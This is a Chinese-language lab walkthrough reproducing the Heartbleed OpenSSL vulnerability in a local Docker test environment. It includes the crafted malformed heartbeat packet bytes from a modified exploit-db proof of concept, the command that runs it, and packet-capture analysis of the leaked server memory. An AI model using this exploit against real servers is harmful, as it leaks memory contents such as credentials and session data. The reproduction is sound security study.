 ## 2. 漏洞复现
### 1）环境
首先需要搭建漏洞测试环境，为节省时间，可以直接使用 Docker Hub 中的测试环境。用以下命令可拉取（pull）已部署漏洞环境的测试镜像。
```bash
docker pull hmlio/vaas-cve-2014-0160
```
该镜像中所部署的服务如下：
```bash
System：Debian GNU/Linux 7 (wheezy)
Http Server：Apache/2.2.22
OpenSSL：openssl-1.0.1e
```
接着运行容器，并使用 -p 参数把容器中 443 端口映射到宿主机的 8443 端口。
```bash
docker run -d -p 8443:443 hmlio/vaas-cve-2014-0160
```
最后在宿主机中用浏览器访问 `https://127.0.0.1:8443`，若服务正常，将返回以下页面。  
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/18-6-30/37260673.jpg)  
### 2）测试
从 exploit-db 下载 [POC](https://www.exploit-db.com/exploits/32745/) 对 HTTP 服务器进行测试，并用 tcpdump 捕获攻击过程中通信双方交互的数据。可修改 POC 中畸形心跳请求包的构造方式，原畸形包没有载荷 (payload) 和填充字符 (padding)；修改后的畸形包有完整的包结构。两种构造方式都能成功利用漏洞。
```python
### 构造畸形心跳请求包。
# 原构造方式：
# 0x18:Heartbleed消息类型; 0x0302:TLS1.1; 0x0003:心跳包长度
# 0x01:Heartbleed request类型; 0x4000:payload长度
# hb = h2bin('18 03 02 00 03 01 40 00')

# 修改后的构造方式：
# 0x18:Heartbleed消息类型; 0x0302:TLS1.1; 0x0008:心跳包长度; 
# 0x01:Heartbleed request类型; 0x0155:payload长度; 
# 5*' 41':载荷数据; 16*' 42':填充字节
hb = h2bin('18 03 02'+' 00 08'+' 01'+' 01 55'+5*' 41'+16*' 42')
```
首先使用以下命令运行 tcpdump 监听网络接口，由于 HTTP 服务器部署在 docker 中，需用-i 选项指定网络接口为 docker0，同时用-w 选项把数据包存入 heartbleed.pcap 文件中。
```bash
sudo tcpdump -i docker0 -w heartbleed.pcap
```
接着运行 POC（已做部分修改）发送攻击数据包进行测试。
```bash
python exploit.py -p 8443 127.0.0.1
```
测试结果如下图所示，利用漏洞已成功获取服务器内存中数据，返回的数据中包含了客户端发送的 HTTP 请求头信息。  
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/18-7-1/55912321.jpg)  
使用 Wireshark 打开数据包文件 heartbleed.pcap，筛选出 SSL 通信数据包有以下 4 个。前 2 个为 SSL 协议握手过程的第一阶段。第 3 个为客户端发送的畸形心跳请求包，该请求包中载荷长度（payload length）为 341 bytes，但是实际载荷内容（payload）的长度为 5 bytes。  
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/18-7-1/67904758.jpg)  
第 4 个为服务器返回的心跳响应包，由于服务器收到畸形心跳请求包后，在构造心跳响应包时未对载荷长度进行检查，将内存中其它数据与心跳数据（总长度为 341 bytes）一起返回给客户端，导致服务器内存泄露，从下图可看到泄露的服务器内存数据中包含有客户端发送的 HTTP 请求头信息。  
![](https://hexo-1253637093.cos.ap-guangzhou.myqcloud.com/18-7-1/38937640.jpg)  
